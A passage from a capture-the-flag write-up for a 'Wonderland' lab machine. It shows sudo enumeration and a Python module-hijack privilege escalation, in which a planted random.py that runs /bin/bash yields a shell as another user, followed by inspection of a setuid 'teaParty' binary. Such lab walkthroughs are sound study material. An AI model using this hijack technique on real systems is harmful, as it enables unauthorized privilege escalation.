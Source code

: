 ~~~
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
~~~

Well, at this stage, the only possibility seems to hijack the `import random` statement from the python script to import our own library.

Let's hook the import as follows:

~~~
alice@wonderland:~$ cd /home/alice/
alice@wonderland:~$ cat > random.py << EOF
import os
os.system("/bin/bash")
EOF
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
[sudo] password for alice: 
rabbit@wonderland:~$ whoami
rabbit
~~~

## From rabbit to hatter

Still no flag, and another challenge to solve:

~~~
rabbit@wonderland:/home/rabbit$ ll
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25 17:58 ./
drwxr-xr-x 6 root   root    4096 May 25 17:52 ../
lrwxrwxrwx 1 root   root       9 May 25 17:53 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25 03:01 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25 03:01 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25 03:01 .profile
-rwsr-sr-x 1 root   root   16816 May 25 17:58 teaParty*
rabbit@wonderland:/home/rabbit$ file teaParty
teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Thu, 11 Jun 2020 13:29:28 +0000
Ask very nicely, and I will give you some tea while you wait for him
tea
Segmentation fault (core dumped)
~~~
